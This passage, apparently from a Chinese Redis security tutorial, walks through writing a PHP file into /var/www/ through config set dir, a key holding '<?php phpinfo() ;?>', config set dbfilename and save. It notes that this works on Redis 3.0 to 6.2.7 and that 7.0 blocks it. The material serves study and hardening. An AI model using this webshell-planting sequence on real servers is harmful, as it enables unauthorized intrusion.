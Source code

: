```
$ /usr/local/redis-627/bin/redis-server 
$ /usr/local/redis-7/bin/redis-server 
```

&nbsp;&nbsp;&nbsp;&nbsp; `var/www/` 目录必须存在,此实验可以在 redis-3.0.0、redis-4.0.0、redis-5.0.0、redis-6.0.0、redis-6.2.7 都能重现,其它版本我没有去验证,但是 `redis-7.0.0` 是重现不了的,因为 7.0 中对 `config set` 一些特殊参数做了进一步的限制,看下面 `config set dir /var/www/` 报错日志.

&nbsp;&nbsp;&nbsp;&nbsp; `dir` 默认没有配置文件指定的话,是以在哪个目录启动redis-server脚本存储目录,比如下面就是 `/tmp/` 目录下就会生成 `dump.rdb` 文件.

[&nbsp;&nbsp;&nbsp;&nbsp; `var/www/` directory must exist, this experiment can be in redis-3.0.0, redis-4.0.0, redis-5.0.0, redis-6.0.0, redis-6.2 .7 can be reproduced, I have not verified other versions, but `redis-7.0.0` cannot reproduce, because 7.0 has further restrictions on some special parameters of `config set`, see the following `config set` dir /var/www/` error log.]:#

[&nbsp;&nbsp;&nbsp;&nbsp; `dir` If there is no configuration file specified by default, it is the directory in which to start the redis-server script storage directory, such as the following is the `/tmp/` directory will generate `dump.rdb` document.]:#

```
# CONFIG SET protected-mode no
127.0.0.1:6379> info Server
# Server
redis_version:3.0.0
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:ffd58eb7da41810a
redis_mode:standalone
os:Linux 4.18.0-277.el8.x86_64 x86_64
arch_bits:64
multiplexing_api:epoll
gcc_version:8.5.0
process_id:529807
run_id:4c9ae3d11208b2a8416eb6d31678bfaec4e6c74e
tcp_port:6379
uptime_in_seconds:44
uptime_in_days:0
hz:10
lru_clock:9661853
config_file:

# Since version 3.2.0
127.0.0.1:6379> CONFIG get  protected*
(empty list or set)

127.0.0.1:6379>  CONFIG get  protected*
1) "protected-mode"
2) "yes"
127.0.0.1:6379> CONFIG get dir
1) "dir"
2) "/tmp"
127.0.0.1:6379> config set dir /var/www/ 
OK

# Since version 7.0.0
127.0.0.1:6379> config set dir /var/www/ 
(error) ERR CONFIG SET failed (possibly related to argument 'dir') - can't set protected config

127.0.0.1:6379> set xxx "\n\n\n<?php phpinfo() ;?>\n\n\n" 
OK
127.0.0.1:6379> config set dbfilename phpinfo.php 
OK
127.0.0.1:6379> save
OK
```